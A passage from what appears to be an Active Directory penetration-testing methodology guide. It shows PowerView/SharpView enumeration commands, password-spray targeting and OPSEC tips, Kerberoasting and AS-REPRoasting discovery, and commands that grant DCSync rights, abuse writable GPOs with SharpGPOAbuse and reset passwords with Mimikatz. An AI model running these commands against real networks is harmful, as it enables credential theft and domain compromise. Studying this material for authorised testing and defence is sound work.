Test-AdminAccess -ComputerName [sql-host]
# Enumerate open shares on a remote computer
.\SharpView.exe Get-NetShare -ComputerName [dc-hostname]3.1.5 Threaded Meta-Functions
The meta-functions are threaded for performance and automate common enumeration patterns across the entire domain.
| Function | Description |
|---|---|
Find-DomainUserLocation | Finds domain machines where specific users are logged in |
Find-DomainProcess | Finds machines where specific processes are running |
Find-DomainUserEvent | Finds logon events for specified users on current or remote domain |
Find-DomainShare | Finds reachable shares on domain machines |
Find-InterestingDomainShareFile | Searches for files matching criteria on readable domain shares |
Find-LocalAdminAccess | Finds machines where current user has local admin access |
Find-DomainLocalGroupMember | Enumerates members of specified local groups across domain machines |
# Find where domain users are logged in
Find-DomainUserLocation
# Find all machines where current user is local admin
Find-LocalAdminAccess3.1.6 Domain Trust Functions
| Function | Description |
|---|---|
Get-DomainTrust | Returns all domain trusts for the current or specified domain |
Get-ForestTrust | Returns all forest trusts for the current or specified forest |
Get-DomainForeignUser | Enumerates users who are in groups outside their domain |
Get-DomainForeignGroupMember | Enumerates groups with users outside the group's domain |
Get-DomainTrustMapping | Enumerates all trusts for the current domain, then recursively enumerates trusts for each discovered domain |
# Enumerate all domain trusts
Get-DomainTrust
# Map all trusts recursively
Get-DomainTrustMappingMethodology
-
# PowerView Import-Module .\PowerView.ps1 # SharpView (standalone) .\SharpView.exe Get-Domain -
.\SharpView.exe Get-Domain Get-ForestDomain -
.\SharpView.exe Get-DomainOU | findstr /b "name" -
Get-DomainPolicy -
.\SharpView.exe ConvertTo-SID -Name targetuser Get-DomainUser targetuser | ConvertFrom-UACValue -showall
3.2 Enumerating AD Users
Domain users are arguably the most important objects during AD enumeration. Users have access to computers, are assigned permissions across the domain, and control accounts are the key to lateral and vertical movement. Thorough user enumeration reveals AS-REPRoastable accounts, Kerberoastable SPNs, delegation misconfigurations, password policy weaknesses, and cross-domain relationships.
3.2.1 Key AD User Data Points
Start by getting a count of domain users, then drill into individual user properties.
# Count all domain users
(Get-DomainUser).count
# View help for Get-DomainUser (SharpView)
.\SharpView.exe Get-DomainUser -HelpCritical user properties to enumerate:
| Property | Why It Matters |
|---|---|
samaccountname | Login name used for authentication |
description | Often contains passwords or sensitive notes left by admins |
memberof | Group memberships reveal privileges and attack paths |
whencreated | Account age; older accounts may have weaker passwords |
pwdlastset | Critical for password spraying timing and identifying stale passwords |
lastlogontimestamp | Identifies inactive accounts that may be orphaned |
accountexpires | Accounts set to never expire are higher risk |
admincount | Value of 1 indicates a protected/privileged account |
userprincipalname | UPN format used for authentication |
serviceprincipalname | If set, account is Kerberoastable |
mail | Email address, useful for phishing and account correlation |
useraccountcontrol | UAC flags reveal delegation, pre-auth, password policy settings |
# Enumerate key properties for a specific user
Get-DomainUser -Identity [user].jones -Domain [domain] | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol
# Export all user data to CSV for offline analysis
Get-DomainUser * -Domain [domain] | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-Csv .\[output].csv -NoTypeInformationAS-REPRoastable accounts (Kerberos pre-authentication disabled):
.\SharpView.exe Get-DomainUser -KerberosPreauthNotRequired -Properties samaccountname,useraccountcontrol,memberofConstrained delegation accounts (trusted to authenticate for other principals):
.\SharpView.exe Get-DomainUser -TrustedToAuth -Properties samaccountname,useraccountcontrol,memberofUnconstrained delegation accounts:
.\SharpView.exe Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"Passwords in description fields:
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}Kerberoastable accounts (accounts with SPNs set):
.\SharpView.exe Get-DomainUser -SPN -Properties samaccountname,memberof,serviceprincipalnameForeign group membership (users from other domains in local groups):
# Find foreign group members
Find-ForeignGroup
# Convert the SID to a readable name
Convert-SidToName [sid]
# Enumerate Kerberoastable accounts in trusted domains
Get-DomainUser -SPN -Domain [foreign-domain] | select samaccountname,memberof,serviceprincipalname | fl3.2.2 Password Set Times
Analyzing password set times is critical for planning password spraying attacks and identifying weak accounts. This data reveals patterns that significantly increase spray success rates while minimizing detection risk.
# Show all password set times, sorted
Get-DomainUser -Properties samaccountname,pwdlastset,lastlogon -Domain [domain] | select samaccountname, pwdlastset, lastlogon | Sort-Object -Property pwdlastset
# Show passwords set before a specific date (e.g., older than 90 days)
Get-DomainUser -Properties samaccountname,pwdlastset,lastlogon -Domain [domain] | select samaccountname, pwdlastset, lastlogon | where { $_.pwdlastset -lt (Get-Date).addDays(-90) }Key insights from password set time analysis:
| Pattern | Significance | Attack Strategy |
|---|---|---|
| Several passwords set at the same time | Likely set by Help Desk; may be identical | Guess common passwords like "Password2020" or "CompanyName2020!" across these accounts |
| Password set in a specific month/year | Seasonal variation hints at password content | If set in July 2019, exclude "2020" from guesses; don't try "Winter2019" if set in summer |
| Very old password (2+ years) | Likely weak; high-priority target | Guess before launching a large spray; these are the easiest wins |
| Admin "user account" and "admin account" changed at similar times | Same person, likely same password for both | If you crack one, try the same password on the other account |
OPSEC consideration: Organizations are much more likely to detect an automated password spray across all accounts than a few targeted guesses toward a small group of carefully selected accounts. Always respect lockout policies; typically no more than 4 failed attempts within 15 minutes.
Methodology
-
(Get-DomainUser).count -
Get-DomainUser * -Domain [domain] | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-Csv .\domain_users.csv -NoTypeInformation -
.\SharpView.exe Get-DomainUser -KerberosPreauthNotRequired -Properties samaccountname,useraccountcontrol,memberof -
.\SharpView.exe Get-DomainUser -SPN -Properties samaccountname,memberof,serviceprincipalname -
.\SharpView.exe Get-DomainUser -TrustedToAuth -Properties samaccountname,useraccountcontrol,memberof -
.\SharpView.exe Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)" -
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null} -
Get-DomainUser -Properties samaccountname,pwdlastset,lastlogon -Domain target.local | select samaccountname, pwdlastset, lastlogon | Sort-Object -Property pwdlastset -
Get-DomainUser -Properties samaccountname,pwdlastset,lastlogon -Domain target.local | select samaccountname, pwdlastset, lastlogon | where { $_.pwdlastset -lt (Get-Date).addDays(-90) } -
Find-ForeignGroup Get-DomainUser -SPN -Domain [foreign-domain] | select samaccountname,memberof,serviceprincipalname | fl
3.3 Enumerating AD Groups
Group membership enumeration is essential for understanding privilege relationships, identifying nested group issues, and discovering unintended rights that could lead to privilege escalation. Groups define what users can access, and misconfigurations in group membership are one of the most common AD attack vectors.
3.3.1 Domain Groups
Start by listing all groups and identifying non-standard groups that may indicate additional attack surface.
# List all domain groups
Get-DomainGroup -Properties Name
# View SharpView help for group member enumeration
.\SharpView.exe Get-DomainGroupMember -Help
# Enumerate members of a specific group
.\SharpView.exe Get-DomainGroupMember -Identity 'Help Desk'Groups of interest: When reviewing the group listing, pay special attention to:
- Exchange groups (
Exchange Trusted Subsystem,Exchange Windows Permissions); Exchange installation adds several groups with high privileges, including WriteDACL on the domain object - Custom security groups (
LAPS Admins,Security Operations,Help Desk); may have unintended permissions - Protected Users: members have enhanced security protections (no NTLM auth, no delegation, shorter TGT lifetime)
- DnsAdmins: members can load arbitrary DLLs on domain controllers via the DNS service
3.3.2 Protected Groups
Protected groups have the AdminCount attribute set to 1, indicating they are protected by the AdminSDHolder mechanism. The Security Descriptor Propagator (SDProp) process runs every 60 minutes on the PDC Emulator and resets the ACL on these objects to match the AdminSDHolder container's ACL, preventing unauthorized permission changes.
# Find all groups with AdminCount=1 (protected groups)
.\SharpView.exe Get-DomainGroup -AdminCountProtected groups include Administrators, Domain Admins, Enterprise Admins, Schema Admins, Server Operators, Account Operators, Backup Operators, Print Operators, and others. Users who were once members of these groups can retain AdminCount=1 after removal because of a known AD artifact. These "orphaned" AdminCount users can be interesting targets because they may retain residual privileges.
3.3.3 Managed Security Groups
Managed security groups have the managedBy attribute set, delegating the right to add/remove members to a non-administrator. This can be a lateral movement vector if the manager account is compromised.
# Find all managed security groups
Find-ManagedSecurityGroups | select GroupName
# Get detailed information about managed groups
Get-DomainManagedSecurityGroupVerifying manager permissions: Once a managed group and its manager are identified, verify the manager's actual ACL permissions on the group:
# Convert manager name to SID
$sid = ConvertTo-SID joe.evans
# Check ACLs for the group, filtering for the manager's SID
Get-DomainObjectAcl -Identity 'Security Operations' | ?{ $_.SecurityIdentifier -eq $sid}If the manager has GenericWrite privileges, they can modify group membership (add or remove users). Compromising the manager account allows adding any controlled account to the group, inheriting all of its domain privileges.
3.3.4 Local Groups
Enumerating local group membership on domain hosts reveals which domain users have local admin or other privileged access on specific machines.
# List local groups on a remote host
Get-NetLocalGroup -ComputerName [target-host] | select GroupName
# Enumerate local admin group members on a remote host
.\SharpView.exe Get-NetLocalGroupMember -ComputerName [target-host]
# Convert SID to identify unknown members
Convert-SidToName [sid]Finding all hosts where a user is local admin:
# Convert username to SID
$sid = Convert-NameToSid [user].jones
# Enumerate all computers and check local admin membership
$computers = Get-DomainComputer -Properties dnshostname | select -ExpandProperty dnshostname
foreach ($line in $computers) {Get-NetLocalGroupMember -ComputerName $line | ? {$_.SID -eq $sid}}3.3.5 Pulling Date User Added to Group
PowerView cannot pull the date a user was added to a group natively, but the Get-ADGroupMemberDate module can. This information is valuable for incident response; if a suspicious user is found in a group, defenders can search for Event ID 4728/4738 on that date to find who added the user, or Event ID 4624 since the date added to see if anyone has logged in.
# Load the module
Import-Module .\Get-ADGroupMemberDate.ps1
# Get dates for all members of a group
Get-ADGroupMemberDate -Group "Help Desk" -DomainController DC01.[domain]
# Filter for a specific user
Get-ADGroupMemberDate -Group "Help Desk" -DomainController DC01.[domain] | ? { ($_.Username -match '[user].jones') -And ($_.State -NotMatch 'ABSENT') }Methodology
-
Get-DomainGroup -Properties Name -
.\SharpView.exe Get-DomainGroup -AdminCount -
.\SharpView.exe Get-DomainGroupMember -Identity 'Domain Admins' -
Find-ManagedSecurityGroups | select GroupName Get-DomainManagedSecurityGroup -
.\SharpView.exe Get-NetLocalGroupMember -ComputerName [target-host] -
$sid = Convert-NameToSid targetuser $computers = Get-DomainComputer -Properties dnshostname | select -ExpandProperty dnshostname foreach ($line in $computers) {Get-NetLocalGroupMember -ComputerName $line | ? {$_.SID -eq $sid}} -
Get-ADGroupMemberDate -Group "Help Desk" -DomainController DC01.DOMAIN.LOCAL
3.4 Enumerating AD Computers
Computer enumeration reveals which hosts users log in to, what delegation settings are configured, and which machines present the best attack targets based on their operating system, age, and configuration.
3.4.1 Domain Computer Information
# View SharpView help for Get-DomainComputer
.\SharpView.exe Get-DomainComputer -Help
# Enumerate key computer properties
.\SharpView.exe Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp,useraccountcontrol
# Export computer data to CSV
Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp,useraccountcontrol | Export-Csv .\[output].csv -NoTypeInformation3.4.2 Finding Exploitable Machines
Three computer properties are especially valuable when combined to identify targets:
| Property | Attack Significance |
|---|---|
LastLogonTimeStamp | If 90+ days old, the machine has not been turned on and is missing OS and application patches. Stale machines are prime targets. Administrators may want to auto-disable machines after 90 days of inactivity. |
OperatingSystem | Older OS versions (Windows 7, Server 2008) may be vulnerable to EternalBlue or have fewer logging/AV capabilities. Windows 10 Enterprise has Credential Guard enabled by default (prevents Mimikatz from stealing passwords), while Windows 10 Professional does not; target Professional boxes if admins log in to both. |
WhenCreated | The older the machine, the more likely it deviates from the "standard build." Old workstations may have weaker local admin passwords, more local admins, vulnerable software, or more sensitive data. |
3.4.3 Delegation on Computers
Unconstrained delegation on computers:
.\SharpView.exe Get-DomainComputer -Unconstrained -Properties dnshostname,useraccountcontrolDomain controllers always have unconstrained delegation (SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION) by design. Any non-DC computer with unconstrained delegation is a high-value target because cached TGTs from users who authenticate to it can be extracted and used for impersonation if the host is compromised. This is the basis of the "Printer Bug" attack where a DC can be coerced into authenticating to a compromised unconstrained delegation host.
Constrained delegation on computers:
Get-DomainComputer -TrustedToAuth | select -Property dnshostname,useraccountcontrolComputers with TRUSTED_TO_AUTH_FOR_DELEGATION can impersonate users to specific services defined in msds-allowedtodelegateto. If the computer account is compromised (e.g., via SYSTEM access), the attacker can use S4U2Self and S4U2Proxy to obtain service tickets as any user, including Domain Admins, to the allowed services.
Methodology
-
.\SharpView.exe Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp,useraccountcontrol -
Get-DomainComputer -Properties dnshostname,operatingsystem,lastlogontimestamp,useraccountcontrol | Export-Csv .\computers.csv -NoTypeInformation -
.\SharpView.exe Get-DomainComputer -Unconstrained -Properties dnshostname,useraccountcontrol -
Get-DomainComputer -TrustedToAuth | select -Property dnshostname,useraccountcontrol -
Get-DomainComputer -Properties dnshostname,lastlogontimestamp | where { $_.lastlogontimestamp -lt (Get-Date).addDays(-90) } -
Get-DomainComputer -Properties dnshostname,operatingsystem | where { $_.operatingsystem -match "2008|2003|Windows 7|Windows XP" } -
Test-AdminAccess -ComputerName [sql-host] -
.\SharpView.exe Get-NetShare -ComputerName [dc-hostname] -
Find-DomainUserLocation
3.5 Enumerating Domain ACLs
Access Control Lists (ACLs) define which security principals (users, groups, processes) have what rights over AD objects. ACL misconfigurations are a powerful but often overlooked attack vector; they can persist unnoticed for years because they are difficult to monitor and audit at scale. Even a small AD network has thousands of ACLs, requiring targeted searches to uncover useful data.
3.5.1 Access Control Lists Overview
ACL settings are composed of individual Access Control Entries (ACEs). Each ACE references a security principal and defines that principal's rights over the target object.
| ACL Type | Description |
|---|---|
| Discretionary Access Control List (DACL) | Defines which security principals are granted or denied access to an object. This is the primary target for ACL abuse. |
| System Access Control List (SACL) | Allows administrators to log access attempts made to secured objects. Used for auditing, not for granting/denying access. |
ACL misconfigurations can enable chained object-to-object control. Derivative admins are users who can derive admin rights by exploiting an AD attack chain composed of:
- "Unprivileged" users (shadow admins) having administrative access on member servers or workstations
- Privileged users having a logon session on these workstations and member servers
- Other object-to-object control: force password change, add group member, change owner, write ACE, and full control
3.5.2 Abusable ACL Rights
The following AD object security permissions are supported by BloodHound and abusable with PowerView/SharpView:
| ACL Right | Abuse Method (PowerView) | What It Allows |
|---|---|---|
ForceChangePassword | Set-DomainUserPassword | Change a user's password without knowing the current password |
Add Members | Add-DomainGroupMember | Add arbitrary users to a group, inheriting its privileges |
GenericAll | Set-DomainUserPassword or Add-DomainGroupMember | Full control over the object; can change password, modify group membership, modify attributes |
GenericWrite | Set-DomainObject | Modify any non-protected attribute on the object (e.g., set SPN for targeted Kerberoasting, modify scriptpath) |
WriteOwner | Set-DomainObjectOwner | Change the owner of the object, granting implicit full control |
WriteDACL | Add-DomainObjectACL | Modify the DACL itself; grant yourself any permission on the object |
AllExtendedRights | Set-DomainUserPassword or Add-DomainGroupMember | Includes rights like User-Force-Change-Password and DS-Replication-Get-Changes |
3.5.3 Enumerating ACLs with Built-In Cmdlets
File share ACL enumeration:
# List shares on a host
Get-NetShare -ComputerName [sql-host]
# Get ACLs on a specific share path
Get-PathAcl "\\SQL01\DB_backups"When Get-PathAcl reveals that BUILTIN\Users has AppendData/AddSubdirectory, WriteData/AddFile, or GenericAll permissions on a share, any authenticated user can write to that share. This is a significant finding that could enable planting malicious files, overwriting scripts, or data exfiltration.
3.5.5 DCSync Rights Enumeration
The DCSync attack requires a user to have a combination of three replication rights on the domain object:
- Replicating Directory Changes (DS-Replication-Get-Changes)
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
- Replicating Directory Changes In Filtered Set (DS-Replication-Get-Changes-In-Filtered-Set)
# Find all SIDs with replication rights on the domain object
Get-ObjectACL "DC=[domain-short],DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object SecurityIdentifier | Sort-Object -Property SecurityIdentifier -Unique
# Convert SID to name
convertfrom-sid [sid]
# Enumerate all users with DCSync rights in one step
$dcsync = Get-ObjectACL "DC=[domain-short],DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsyncExpected accounts with DCSync rights: Domain Controllers, Enterprise Admins, Domain Admins, BUILTIN\Administrators, Enterprise Domain Controllers, Local System. Any non-standard account with these rights is a critical finding.
3.5.6 Leveraging ACLs for Attacks
Once abusable ACLs are discovered, several attack paths are available depending on the specific right and target object type:
# View ACLs for a specific user, filtered by a specific identity
(Get-ACL "AD:$((Get-ADUser [user]).distinguishedname)").access | ? {$_.IdentityReference -eq "[DOMAIN]\[user]"}
# Find all identities with WriteProperty or GenericAll rights over a user
(Get-ACL "AD:$((Get-ADUser [user]).distinguishedname)").access | ? {$_.ActiveDirectoryRights -match "WriteProperty" -or $_.ActiveDirectoryRights -match "GenericAll"} | Select IdentityReference,ActiveDirectoryRights -Unique | ft -W3.5.4 Enumerating ACLs with PowerView and SharpView
Object-level ACL enumeration:
# Get ACLs for a specific user with resolved GUIDs
Get-DomainObjectAcl -Identity [user].jones -Domain [domain] -ResolveGUIDs
# Find all interesting ACLs (modification rights on non-built-in objects)
Find-InterestingDomainAcl -Domain [domain] -ResolveGUIDs| Scenario | Attack | Destructiveness |
|---|---|---|
GenericAll/GenericWrite over a user | Set fake SPN for targeted Kerberoasting | Low; does not disrupt the account |
GenericAll/GenericWrite over a user | Disable pre-auth for targeted AS-REPRoasting | Low; reversible change |
GenericAll/ForceChangePassword over a user | Force password change | High; disrupts the account; coordinate with client |
WriteDACL over domain object | Grant self DCSync rights, then DCSync | High; full domain compromise |
GenericAll/GenericWrite over a computer | Kerberos Resource-Based Constrained Delegation (RBCD) attack | Medium; requires additional prerequisites |
| Write permissions over a GPO | Use SharpGPOAbuse to add local admin, set user rights, or create startup scripts | Medium; affects all hosts/users where the GPO is linked |
Targeted Kerberoasting via GenericWrite: Instead of changing a user's password (destructive), set a fake SPN on the target account, request a TGS for that SPN, and crack it offline. This is much less likely to be detected than a password change.
WriteDACL to DCSync: If you compromise a member of Exchange Trusted Subsystem, you likely have WriteDACL on the domain object. Grant an account you control Replicating Directory Changes and Replicating Directory Changes All, then perform DCSync to extract all password hashes.
Password recovery after destructive actions: If you change a user's password and later compromise the domain, you can DCSync to obtain the account's password history, then use Mimikatz to reset the account to the previous password:
# Reset to previous password hash using Mimikatz
LSADUMP::ChangeNTLM
LSADUMP::SetNTLMMethodology
-
Get-DomainObjectAcl -Identity targetuser -Domain domain.local -ResolveGUIDs -
Find-InterestingDomainAcl -Domain domain.local -ResolveGUIDs -
$dcsync = Get-ObjectACL "DC=domain,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value Convert-SidToName $dcsync -
Get-NetShare -ComputerName [sql-host] Get-PathAcl "\\SQL01\DB_backups" -
Get-DomainObjectAcl -Identity "DC=domain,DC=local" -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match 'WriteDacl'} | select SecurityIdentifier | Sort-Object -Unique -
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='nonexistent/YOURHOST'} Get-DomainSPNTicket -SPN 'nonexistent/YOURHOST' -
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity youruser -Rights DCSync
3.6 Enumerating Group Policy Objects (GPOs)
Group Policy Objects (GPOs) provide centralized management of configuration settings for operating systems, users, and computers in a Windows environment. GPOs are collections of policy settings applied to individual users, hosts, or groups via Organizational Units (OUs). Gaining rights over a GPO can lead to lateral movement, vertical privilege escalation up to full domain compromise, and can serve as a persistence mechanism. Like ACLs, GPOs are frequently overlooked, and a single misconfigured GPO can have catastrophic results.
3.6.1 GPO Abuse Overview
GPOs can be abused to perform attacks such as:
- Adding additional rights to a user (e.g.,
SeDebugPrivilegefor credential theft,SeTakeOwnershipPrivilegefor gaining control over files/shares) - Adding a local admin to target hosts
- Creating an immediate scheduled task
- Installing targeted malware across the entire domain
- Configuring machine/user startup scripts
Persistence via GPOs can be achieved by:
- Configuring a GPO to run any of the above attacks
- Creating a scheduled task to modify group membership, add accounts, run DCSync, or establish reverse shell connections
- Installing targeted malware domain-wide
SharpGPOAbuse is the primary tool for exploiting GPO misconfigurations. Common attack modes include --AddUserRights (grant unintended privileges) and --AddLocalAdmin (add a user as local admin where the GPO is applied).
3.6.2 Gathering GPO Data
Analyzing GPO names: GPO names reveal security configurations in the domain. Look for:
# List all GPOs in the domain
Get-DomainGPO | select displayname
# Check which GPOs apply to a specific computer
Get-DomainGPO -ComputerName [target-host] | select displayname- LAPS: Local Administrator Password Solution is deployed
- AppLocker: Application whitelisting is in place
- PowerShell logging: Script block/module logging is enabled
- Disable CMD.exe: cmd.exe is restricted on workstations
- Audit Policy: Enhanced auditing is configured
Check for hosts/users where these GPOs are NOT applied to find attack paths that circumvent these controls.
Using gpresult (built-in): When PowerView is not available, gpresult can enumerate applied GPOs:
# GPOs applied to a specific user
gpresult /r /user:[user].jones
# GPOs applied to a specific computer
gpresult /r /S WS01
# Export GPO report as HTML
gpresult /h gpo_report.html3.6.3 GPO Permissions
After reviewing all GPOs, check GPO permissions for overly permissive write access. A common misconfiguration is granting Domain Users write access to a GPO.
# Find GPOs where Domain Users have write access
# (S-1-5-21-...-513 is the Domain Users group SID)
Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq '[sid]'}
# Confirm the GPO name using the GUID
Get-GPO -Guid 831DE3ED-40B1-4703-ABA7-8EA13B2EB118If Domain Users have CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute on a GPO, any domain user can modify that GPO. This can be exploited with SharpGPOAbuse to add a local admin, set user rights, or create scheduled tasks on all machines where the GPO is linked.
3.6.4 Hidden GPO Code Execution Paths
Beyond the standard "Is the GPO itself writable?" check, there are hidden code execution paths through GPO. Many organizations use non-GP tools (SCCM, PDQ Deploy, NinjaRMM, Ansible/Puppet/Salt) for management, but administrators often create one-off GP configurations for quick tasks. These one-off scripts can reference files on writable shares, creating an indirect code execution path that automated tools miss.
GPO code execution paths to audit:
| Execution Path | Description |
|---|---|
| Registry Autoruns | GPO adds registry run keys that execute programs at logon/startup |
| Software Installation | GPO installs MSI packages from a network share |
| Startup/Shutdown Scripts | Machine or user scripts executed at startup/shutdown/logon/logoff |
| Desktop Shortcuts | Shortcuts pointing to executable files on shares |
| Scheduled Tasks | GPO-deployed scheduled tasks that run scripts or executables |
Critical check: If any of these paths point to a file on a network share, enumerate the share permissions to check if non-administrators can edit the file. Automated security tools typically only check if the GPO itself is writable, not if the executables/scripts the GPO references are writable. Look specifically for files on shares writable by Everyone, Authenticated Users, Domain Users, or Domain Computers.
Real-world example: A "Machine Startup" script that collects inventory and writes to a domain share. If the BAT or VBScript files referenced by this script are writable by the machine account or Domain Users, an attacker can replace the script content with malicious code that executes on every machine in the OU.
Methodology
-
Get-DomainGPO | select displayname -
Get-DomainGPO -ComputerName [target-host] | select displayname -
gpresult /r /S WS01 gpresult /h gpo_report.html -
$domainUsersSID = (Get-DomainGroup -Identity "Domain Users").objectsid Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq $domainUsersSID} -
Get-GPO -Guid <GUID-from-previous-step> -
# Check SYSVOL scripts directory for writable files Get-PathAcl "\\domain.local\SYSVOL\domain.local\Policies\{GPO-GUID}\Machine\Scripts" -
# Add local admin via writable GPO .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount targetuser --GPOName "Screensaver" # Add user rights via writable GPO .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeDebugPrivilege" --UserAccount targetuser --GPOName "Screensaver"
3.7 Enumerating AD Trusts
A trust is used to establish forest-forest or domain-domain authentication, allowing users to access resources in (or administer) another domain outside of their account's home domain. Trusts create a link between the authentication systems of two domains and are frequently misconfigured, providing unintended cross-boundary attack paths.
3.7.1 Trust Types and Properties
Key trust properties:
- Transitive: Trust is extended to objects that the child domain trusts (chain of trust)
- Non-transitive: Only the directly trusted domain is trusted, no chaining
- Bidirectional: Users from both domains can access resources in either domain
- One-way: Only users in the trusted domain can access resources in the trusting domain. The direction of trust is opposite to the direction of access.
| Trust Type | Description | Transitivity |
|---|---|---|
| Parent-child | Domains within the same forest. Child has a two-way transitive trust with parent. Created automatically when a child domain is added. | Transitive |
| Cross-link | Trust between child domains to speed up authentication (shortcut trust). | Transitive |
| External | Non-transitive trust between two separate domains in separate forests not already joined by a forest trust. Uses SID filtering. | Non-transitive |
| Tree-root | Two-way transitive trust between a forest root domain and a new tree root domain. Created automatically when a new tree root is added. | Transitive |
| Forest | Transitive trust between two forest root domains. | Transitive |
Common trust misconfigurations:
3.7.2 Enumerating Trust Relationships
The Get-DomainTrust output shows the source and target domains, trust type (WINDOWS_ACTIVE_DIRECTORY), trust attributes (WITHIN_FOREST for parent-child, FOREST_TRANSITIVE for forest trust), and trust direction (Bidirectional or one-way).
Get-DomainTrustMapping goes further by recursively enumerating trusts for each discovered domain, providing a complete map of all trust relationships in the environment.
# Enumerate trusts for the current domain
Get-DomainTrust
# Map all trusts recursively (current domain + all reachable domains)
Get-DomainTrustMapping3.7.3 Attacking Trust Relationships
Depending on the trust type and direction, several attacks are possible:
| Attack | Applicable Trust Type | Description |
|---|---|---|
| Kerberoasting across trusts | Parent-child, Forest (bidirectional) | Request TGS tickets for SPN accounts in trusted domains. Compromised user can authenticate to the partner domain and query AD objects. |
| AS-REPRoasting across trusts | Parent-child, Forest (bidirectional) | Request AS-REP hashes for accounts with pre-auth disabled in trusted domains. |
| ExtraSids attack | Parent-child (same forest) | Compromise child domain, forge Golden Ticket with Enterprise Admins SID in sidHistory to gain full forest control. Possible because SID filtering is not applied within a forest. |
| SID History abuse | Forest (if SID filtering disabled) | Add admin SID from target forest to sidHistory of controlled account. The SID is added to the user's token when authenticating across the trust. |
| Password reuse | Any trust type | Administrators often reuse passwords across trusted environments. If BSIMMONS_ADM exists in both forests, same password is likely. |
| Foreign user/group membership | Any trust type | Accounts belonging to admin groups in Forest A that are part of Forest B can provide a foothold in the partner forest. |
ExtraSids Attack (Root Cause): Within a forest, the sidHistory property is respected due to a lack of SID Filtering. A Golden Ticket forged in the child domain can include the Enterprise Admins SID (which only exists in the forest root domain) in the sidHistory field. When this ticket is presented, the DC treats the user as a member of Enterprise Admins, granting administrative access to the entire forest.
SID History Abuse (Root Cause): The sidHistory attribute was designed for migration scenarios; when a user migrates to a new domain, the original SID is added to sidHistory so they retain access to resources in the old domain. Using Mimikatz, an attacker can inject arbitrary SIDs into an account's sidHistory. If a Domain Admin SID is injected, the account gains DA privileges. This works within the same domain and can also work across forest trusts if SID Filtering is not enabled.
SID History and Token: When a user logs in, all SIDs associated with their account (including sidHistory) are added to the user's access token. This token determines resource access. If the SID of a Domain Admin account is in the token, the user has DA access for that session.
Methodology
-
Get-DomainTrust -
Get-DomainTrustMapping -
Get-ForestTrust -
Get-DomainForeignUser Find-ForeignGroup -
Get-DomainForeignGroupMember -
Convert-SidToName <foreign-SID> -
Get-DomainUser -SPN -Domain [foreign-domain] | select samaccountname,memberof,serviceprincipalname | fl -
Get-DomainUser -KerberosPreauthNotRequired -Domain [foreign-domain] -Properties samaccountname -
# Look for matching usernames across forests Get-DomainUser -Domain [foreign-domain] -Properties samaccountname | select samaccountname
4. Active Directory BloodHound
BloodHound is an open-source tool used by attackers and defenders to analyze Active Directory (AD) and Azure AD security. It uses graph theory to visually represent relationships between objects and identify attack paths that would be difficult or impossible to discover through traditional enumeration. Data is collected using SharpHound (Windows, C#/.NET), BloodHound.py (Linux, Python/Impacket), or AzureHound (Azure, Go binary), then ingested into a Neo4j graph database and analyzed through the BloodHound GUI or raw Cypher queries.
Access management in Active Directory is inherently complex. Nested group memberships, delegated permissions, GPO links, and trust relationships create implicit privilege paths that administrators rarely audit end-to-end. BloodHound automates the discovery of these transitive relationships, turning thousands of discrete ACL entries into a navigable attack graph. A single misconfigured ACE on an obscure group can grant an unprivileged user a path to Domain Admin through a chain of edges that no manual review would catch.
| Component | Purpose | Platform |
|---|---|---|
| Neo4j | Graph database backend (stores nodes/edges) | Windows / Linux / macOS |
| BloodHound GUI | Visual interface for querying and analyzing graph data | Windows / Linux / macOS |
| SharpHound | Data collector for on-prem AD (C# binary) | Windows (.NET) |
| BloodHound.py | Data collector for on-prem AD (Python, Impacket-based) | Linux |
| AzureHound | Data collector for Azure AD and Azure RM | Windows / Linux / macOS (Go) |
| Cypher | Neo4j query language used to search graph relationships | N/A (query language) |
4.1 BloodHound Setup and Installation
BloodHound relies on Neo4j, a NoSQL graph database written in Java that stores data as nodes and edges (relationships). Neo4j requires a Java Virtual Machine (JVM); specifically Java 11 (JDK 11). The installation follows three steps on every platform: (1) install Java, (2) install Neo4j 4.4.x, (3) download the BloodHound GUI.
Neo4j 5.x suffers from severe performance regression with BloodHound and should be avoided. Always use the 4.4.x branch.
4.1.1 Windows Installation
Install Java JDK 11 silently:
# Silent Java install
.\jdk-11.0.17_windows-x64_bin.exe /sInstall and start Neo4j:
# Extract Neo4j
Expand-Archive .\neo4j-community-4.4.16-windows.zip .
# Install as Windows service
.\neo4j-community-4.4.16\bin\neo4j.bat install-service
# Start the service
